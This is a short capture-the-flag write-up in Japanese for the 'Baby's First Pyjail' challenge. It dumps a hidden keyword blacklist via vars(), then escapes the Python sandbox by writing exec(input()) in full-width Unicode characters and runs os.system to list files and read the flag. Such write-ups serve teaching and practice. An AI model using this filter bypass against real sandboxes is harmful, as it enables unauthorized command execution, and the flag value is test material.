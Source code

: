 # Baby's First Pyjail:Jail:100pts
@windex told me that jails should be sourceless. So no source for you.  

`nc 35.226.249.45 5000`  

# Solution
ソースレスなpyjailらしい。  
```bash
$ nc 35.226.249.45 5000
>>> print(1)
1
>>> import os
try harder
>>> __import__('os')
try harder
>>> print(vars())
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f1ab717fc10>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/home/ctfuser/app/chal.py', '__cached__': None, 'blacklist': ['import', 'exec', 'eval', 'os', 'open', 'read', 'system', 'module', 'write', '.'], 'cmd': 'print(vars())', 'i': '.'}
```
ブラックリストが含まれているようだ。  
これらをバイパスしてもよいが、せっかくなので全角文字テクニックを使う。  
```bash
$ nc 35.226.249.45 5000
>>> ｅｘｅｃ(ｉｎｐｕｔ())
__import__("os").system("ls")
chal.py
flag
>>> ｅｘｅｃ(ｉｎｐｕｔ())
__import__("os").system("cat flag")
uoftctf{you_got_out_of_jail_free}
```
flagが読み取れた。  

## uoftctf{you_got_out_of_jail_free}
